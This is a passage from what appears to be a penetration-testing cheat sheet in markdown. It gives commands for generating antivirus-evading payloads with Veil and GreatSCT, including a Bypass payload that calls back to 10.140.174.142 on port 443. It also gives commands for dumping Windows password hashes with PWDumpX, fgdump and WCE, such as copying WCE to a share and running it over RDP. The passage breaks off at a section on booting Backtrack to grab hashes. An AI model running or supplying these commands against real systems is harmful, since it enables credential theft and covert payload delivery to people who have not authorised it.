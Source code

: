 mv /var/lib/veil/output/compiled/* /pentesting/payloads/
mv /var/lib/veil/output/source/* /pentesting/payloads/
mv /var/lib/veil/output/handlers/* /pentesting/payloads/
{% endhighlight %}

GreatSCT

{% highlight PowerShell %}
cd /opt/GreatSCT/setup
./setup.sh
./GreatSCT.py -t Bypass  --ip 10.140.174.142 --port 443 --generate-awl
mv /usr/share/greatsct-output/source/* /pentesting/payloads/
mv /usr/share/greatsct-output/compiled/* /pentesting/payloads/
mv /usr/share/greatsct-output/handlers/* /pentesting/payloads/
{% endhighlight %}

# Extracting Hashes

## PwDumpX

for local admin:

{% highlight PowerShell %}
PWDumpX.exe -clph <host> <username> <password>
{% endhighlight %}

for domain admin:

{% highlight PowerShell %}
PWDumpX.exe -clph <host> <domain>\<username> <password>
{% endhighlight %}

## fgdump

{% highlight PowerShell %}
fgdump -a -o -h 10.10.10.10 -u evilsaint -p password123
{% endhighlight %}

## WCE

If fgdump, pwdump dont work try WCE:

1. open Cain connect and map network share.
2. add WCE to writable share
3. rdesktop to server login as evilsaint
4. run wce from command line on server

# Booting into backtrack for hash grabbing

Find drive

{% highlight PowerShell %}
dmesg | grep sda
{% endhighlight %}
